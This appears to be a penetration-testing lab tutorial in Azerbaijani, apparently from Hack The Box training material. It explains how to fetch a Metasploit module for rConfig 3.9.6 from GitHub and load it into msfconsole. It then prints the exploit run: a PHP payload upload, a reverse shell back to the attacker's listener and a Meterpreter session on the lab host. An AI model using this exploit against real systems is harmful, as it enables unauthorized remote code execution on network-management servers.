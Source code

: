 MSF-dən müəyyən bir tətbiq üçün eksploit modulu tapmağa güvənərkən gözdən qaçırıla biləcək bir detal MSF-in versiyasıdır. Sistemimizdə quraşdırılmamış və ya sadəcə axtarışda görünməyən faydalı eksploit modulları ola bilər. Bu hallarda, Rapid 7-nin eksploit modulları üçün kodları github-da repolarında saxladığını bilmək yaxşıdır. Axtarış motorundan istifadə edərək daha spesifik axtarış edə bilərik: `rConfig 3.9.6 exploit metasploit github`

Bu axtarış bizi `rconfig_vendors_auth_file_upload_rce.rb` adlı bir eksploit modulunun mənbə koduna yönləndirə bilər. Bu eksploit bizə rConfig 3.9.6 işlədən hədəf Linux qutusunda shell sessiyası əldə etməyə kömək edə bilər. Əgər bu eksploit MSF axtarışında görünməyibsə, biz bu repodan kodu yerli hücum qutumuzda yerli MSF quraşdırmamızın istinad etdiyi qovluğa köçürüb saxlaya bilərik. Bunu etmək üçün hücum qutumuzda bu əmri verə bilərik:

**Locate**
```bash
nijatmansimov@htb[/htb]$ locate exploits
```

Çıxışda Metasploit Framework ilə əlaqəli qovluqları axtarırıq. Pwnbox-da, Metasploit eksploit modulları burada saxlanılır:

`/usr/share/metasploit-framework/modules/exploits`

Kodu bir fayla köçürüb GitHub repodunda saxladıqları yerə bənzər şəkildə `/usr/share/metasploit-framework/modules/exploits/linux/http` qovluğunda saxlaya bilərik. Həmçinin `apt update; apt install metasploit-framework` və ya yerli paket menecerinizdən istifadə edərək msf-i güncəlləndirməliyik. Eksploit modulunu tapıb endirdikdən sonra (biz `wget` istifadə edə bilərik) və ya GitHub-dan düzgün qovluğa köçürdükdən sonra, onu hədəfdə shell sessiyası əldə etmək üçün istifadə edə bilərik. Əgər onu yerli sistemimizdə bir fayla köçürsək, faylın `.rb` genişlənməsinə sahib olduğuna əmin olun. MSF-dəki bütün modullar Ruby dilində yazılıb.

**rConfig Eksploitindən İstifadə və Shell Əldə Etmək**

msfconsole-da, əmrdən istifadə edərək eksploiti manual yükləyə bilərik:

**Eksploit Seçin**
```
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

Bu eksploit seçildikdə, seçimləri sadalaya, şəbəkə mühitimizə xas olan düzgün tənzimləmələri daxil edə və eksploiti başlada bilərik.

*Modulda indiyə qədər öyrəndiklərinizdən istifadə edərək eksploitlə əlaqəli seçimləri doldurun.*

**Eksploiti İcra Edin**
```
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```